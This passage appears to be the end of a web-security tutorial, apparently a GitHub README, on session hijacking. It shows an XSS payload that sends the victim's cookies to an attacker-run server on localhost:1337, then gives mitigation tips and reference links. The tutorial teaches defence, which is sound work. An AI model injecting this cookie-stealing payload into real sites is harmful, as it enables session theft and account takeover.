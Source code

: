 </center>

Lets hijack session with our attack server

This XSS string will be used to redirect and hijack session
```
<script>new Image().src="http://localhost:1337/?stolen_cookie="+document.cookie;</script>
```

After entering we can see, session was hijacked

<center>

![](https://i.imgur.com/hL8UguP.png)
    
</center>



### Fixing

Set your session id in strong manner
Your session id is not supposed to be inside of the URL
Use TLS
Reauthenticate Before Key Actions
and others

## REferences

1. https://www.reshiftsecurity.com/xxs-primer-for-java-developers/
2. https://security.stackexchange.com/questions/11985/will-javascript-be-executed-which-is-in-an-href
3. https://www.scip.ch/en/?labs.20160414
4. https://owasp.org/www-community/attacks/csrf
5. https://developer.mozilla.org/ru/docs/Web/HTTP/CORS
6. https://portswigger.net/web-security/file-upload
7. https://www.imperva.com/learn/application-security/rfi-remote-file-inclusion/
8. https://en.wikipedia.org/wiki/SQL_injection#Mitigation
9. https://www.cobalt.io/blog/a-pentesters-guide-to-file-inclusion
10. https://www.oreilly.com/library/view/securing-node-applications/9781491982426/ch04.html
11. https://blog.logrocket.com/protect-against-regex-denial-of-service-redos-attacks/
12. https://www.imperva.com/learn/application-security/command-injection/
13. https://skanyi.github.io/blog/cyber-security/what-is-session-hijacking-and-how-to-prevent-it/
